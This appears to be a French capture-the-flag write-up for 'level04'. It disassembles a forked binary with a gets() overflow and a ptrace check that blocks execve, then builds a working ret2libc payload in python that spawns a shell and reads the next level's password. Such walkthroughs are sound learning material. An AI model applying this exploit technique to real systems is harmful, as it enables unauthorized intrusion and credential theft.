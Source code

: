 # Analyse

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
```

## Binaire

`./level04`
```
Give me some shellcode, k

```
`test`
```

child is exiting...
```
## Gdb

`info function`
```asm
[...]
  0x080486c8  main
[...]
```


`disas main`
```asm
Dump of assembler code for function main:
   0x080486c8 <+0>:	push   ebp
   0x080486c9 <+1>:	mov    ebp,esp
   0x080486cb <+3>:	push   edi
   0x080486cc <+4>:	push   ebx
   0x080486cd <+5>:	and    esp,0xfffffff0
   0x080486d0 <+8>:	sub    esp,0xb0                             ; 176 octets pour la stack
   0x080486d6 <+14>:	call   0x8048550 <fork@plt>
   0x080486db <+19>:	mov    DWORD PTR [esp+0xac],eax             ; int pid @ esp+0xac = fork();
   0x080486e2 <+26>:	lea    ebx,[esp+0x20]                       ; input @ esp+0x20
   0x080486e6 <+30>:	mov    eax,0x0
   0x080486eb <+35>:	mov    edx,0x20
   0x080486f0 <+40>:	mov    edi,ebx
   0x080486f2 <+42>:	mov    ecx,edx
   0x080486f4 <+44>:	rep stos DWORD PTR es:[edi],eax             ; memset(buffer, 0, 32);
   0x080486f6 <+46>:	mov    DWORD PTR [esp+0xa8],0x0             ; int ret @ esp+0xa8 = 0
   0x08048701 <+57>:	mov    DWORD PTR [esp+0x1c],0x0             ; int status @ esp+0x1c = 0
   0x08048709 <+65>:	cmp    DWORD PTR [esp+0xac],0x0
   0x08048711 <+73>:	jne    0x8048769 <main+161>                 ; if pid != 0:  jump <+161> 
   0x08048713 <+75>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804871b <+83>:	mov    DWORD PTR [esp],0x1
   0x08048722 <+90>:	call   0x8048540 <prctl@plt>                ; prctl(1, 1);
   0x08048727 <+95>:	mov    DWORD PTR [esp+0xc],0x0
   0x0804872f <+103>:	mov    DWORD PTR [esp+0x8],0x0
   0x08048737 <+111>:	mov    DWORD PTR [esp+0x4],0x0
   0x0804873f <+119>:	mov    DWORD PTR [esp],0x0
   0x08048746 <+126>:	call   0x8048570 <ptrace@plt>               ; ptrace(0, 0, 0, 0);
   0x0804874b <+131>:	mov    DWORD PTR [esp],0x8048903
   0x08048752 <+138>:	call   0x8048500 <puts@plt>                 ; puts("Give me some shellcode, k");
   0x08048757 <+143>:	lea    eax,[esp+0x20]
   0x0804875b <+147>:	mov    DWORD PTR [esp],eax
   0x0804875e <+150>:	call   0x80484b0 <gets@plt>                 ; gets(input);
   0x08048763 <+155>:	jmp    0x804881a <main+338>                 ; jump <+338>
   0x08048768 <+160>:	nop
   0x08048769 <+161>:	lea    eax,[esp+0x1c]
   0x0804876d <+165>:	mov    DWORD PTR [esp],eax
   0x08048770 <+168>:	call   0x80484f0 <wait@plt>                 ; wait(&status);
   0x08048775 <+173>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048779 <+177>:	mov    DWORD PTR [esp+0xa0],eax
   0x08048780 <+184>:	mov    eax,DWORD PTR [esp+0xa0]
   0x08048787 <+191>:	and    eax,0x7f
   0x0804878a <+194>:	test   eax,eax
   0x0804878c <+196>:	je     0x80487ac <main+228>                 ; if status & 0x7f == 0: jump <+228>
   0x0804878e <+198>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048792 <+202>:	mov    DWORD PTR [esp+0xa4],eax
   0x08048799 <+209>:	mov    eax,DWORD PTR [esp+0xa4]
   0x080487a0 <+216>:	and    eax,0x7f
   0x080487a3 <+219>:	add    eax,0x1
   0x080487a6 <+222>:	sar    al,1
   0x080487a8 <+224>:	test   al,al
   0x080487aa <+226>:	jle    0x80487ba <main+242>                 ; if (status & 0x7f) >> 1 <= 0: jump <+242>
   0x080487ac <+228>:	mov    DWORD PTR [esp],0x804891d
   0x080487b3 <+235>:	call   0x8048500 <puts@plt>                 ; puts("child is exiting...");
   0x080487b8 <+240>:	jmp    0x804881a <main+338>                 ; return(0);
   0x080487ba <+242>:	mov    DWORD PTR [esp+0xc],0x0
   0x080487c2 <+250>:	mov    DWORD PTR [esp+0x8],0x2c
   0x080487ca <+258>:	mov    eax,DWORD PTR [esp+0xac]
   0x080487d1 <+265>:	mov    DWORD PTR [esp+0x4],eax
   0x080487d5 <+269>:	mov    DWORD PTR [esp],0x3
   0x080487dc <+276>:	call   0x8048570 <ptrace@plt>
   0x080487e1 <+281>:	mov    DWORD PTR [esp+0xa8],eax             ; ret = ptrace(3, pid, 44, 0)
   0x080487e8 <+288>:	cmp    DWORD PTR [esp+0xa8],0xb
   0x080487f0 <+296>:	jne    0x8048768 <main+160>                 ; if ret !== 11: jump <+160> (boucle)
   0x080487f6 <+302>:	mov    DWORD PTR [esp],0x8048931
   0x080487fd <+309>:	call   0x8048500 <puts@plt>                 ; puts("no exec() for you");
   0x08048802 <+314>:	mov    DWORD PTR [esp+0x4],0x9
   0x0804880a <+322>:	mov    eax,DWORD PTR [esp+0xac]
   0x08048811 <+329>:	mov    DWORD PTR [esp],eax
   0x08048814 <+332>:	call   0x8048520 <kill@plt>                 ; kill(pid, 9);
   0x08048819 <+337>:	nop
   0x0804881a <+338>:	mov    eax,0x0                              ; return(0);
   0x0804881f <+343>:	lea    esp,[ebp-0x8]
   0x08048822 <+346>:	pop    ebx
   0x08048823 <+347>:	pop    edi
   0x08048824 <+348>:	pop    ebp
   0x08048825 <+349>:	ret
End of assembler dump.
```

# Exploit

Le programme crée un child process avec un fork() qui exécute un peu plus loin un appel à gets() sur l'input que nous contrôlons (donc vulnérable à un buffer overflow), puis return.

Le parent quant à lui boucle en suivant l'exécution du child, tant qu'il ne lance pas le syscall [11: execve()](https://redirect.cs.umbc.edu/courses/undergraduate/313/spring04/burt_katz/lectures/Lect07/syscall_offline.html):
Attend un changement de statut de l'enfant, s'il a été interrompu ou a quitté (cf. [waitstatus.h](https://github.com/lattera/glibc/blob/master/bits/waitstatus.h)), affiche "child is exiting..." et return(0); 

En sortie de boucle (l'enfant a tenté un execve()), il affiche "no exec() for you", le kill et retun(0);

La stack est exécutable, mais le check sur execve() nous empêche de lancer un shellcode classique donc on va opter pour la même approche que dans le level01: un [retour a la libc](https://beta.hackndo.com/retour-a-la-libc/).

Pour trouver l'offset on va devoir spécifier à gdb de suivre l'exécution du process enfant et se servir comme d'habitude du [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

`gdb level04`
- `set follow-fork-mode child`
- `r`
  ```
  Starting program: /home/users/level04/level04
  [New process 3213]
  Give me some shellcode, k
  Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

  Program received signal SIGSEGV, Segmentation fault.
  [Switching to process 3213]
  0x41326641 in ?? ()
  ```
  - Le générateur de pattern nous indique un offset de 156 pour la valeur 0x41326641

Notre exploit sera composé comme suit: [ Offset de 156 (NopSled) ] [ Adresse system() ] [ Adresse retour (osef) ] [ Adresse "/bin/sh" ].

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- L'adresse de system() est 0xf7e6aed0 (\xd0\xae\xe6\xf7)

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
- L'adresse de "/bin/sh" est 0xf7f897ec (\xec\x97\xf8\xf7)

`(python -c 'print "\x90" * 156 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"'; cat - ) | ./level04`
```
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
